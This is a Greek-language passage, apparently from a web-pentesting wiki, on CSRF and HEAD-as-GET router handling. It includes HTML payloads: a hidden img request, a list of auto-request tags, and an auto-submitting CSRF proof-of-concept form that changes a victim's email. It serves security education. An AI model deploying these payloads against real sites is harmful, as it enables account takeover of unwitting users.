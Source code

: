 Το πρώτο μέρος του [**αυτού του CTF writeup**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) εξηγεί ότι [ο πηγαίος κώδικας του Oak](https://github.com/oakserver/oak/blob/main/router.ts#L281), ένας δρομολογητής, έχει ρυθμιστεί να **χειρίζεται τα αιτήματα HEAD ως αιτήματα GET** χωρίς σώμα απόκρισης - μια κοινή λύση που δεν είναι μοναδική για τον Oak. Αντί για έναν συγκεκριμένο χειριστή που ασχολείται με τα αιτήματα HEAD, απλά **δίνονται στον χειριστή GET αλλά η εφαρμογή απλά αφαιρεί το σώμα απόκρισης**.

Επομένως, αν ένα αίτημα GET περιορίζεται, μπορείτε απλά να **στείλετε ένα αίτημα HEAD που θα επεξεργαστεί ως αίτημα GET**.

## **Παραδείγματα Εκμετάλλευσης**

### **Εξαγωγή CSRF Token**

Αν χρησιμοποιείται ένα **CSRF token** ως **άμυνα**, μπορείτε να προσπαθήσετε να **εξάγετε το** εκμεταλλευόμενοι μια [**XSS**](xss-cross-site-scripting/#xss-stealing-csrf-tokens) ευπάθεια ή μια [**Dangling Markup**](dangling-markup-html-scriptless-injection/) ευπάθεια.

### **GET χρησιμοποιώντας HTML tags**
```xml
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```
Άλλες ετικέτες HTML5 που μπορούν να χρησιμοποιηθούν για να στείλουν αυτόματα ένα GET αίτημα είναι:
```html
<iframe src="..."></iframe>
<script src="..."></script>
<img src="..." alt="">
<embed src="...">
<audio src="...">
<video src="...">
<source src="..." type="...">
<video poster="...">
<link rel="stylesheet" href="...">
<object data="...">
<body background="...">
<div style="background: url('...');"></div>
<style>
body { background: url('...'); }
</style>
<bgsound src="...">
<track src="..." kind="subtitles">
<input type="image" src="..." alt="Submit Button">
```
### Αίτημα GET φόρμας
```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form method="GET" action="https://victim.net/email/change-email">
<input type="hidden" name="email" value="some@email.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### Αίτημα POST φόρμας
```html
```
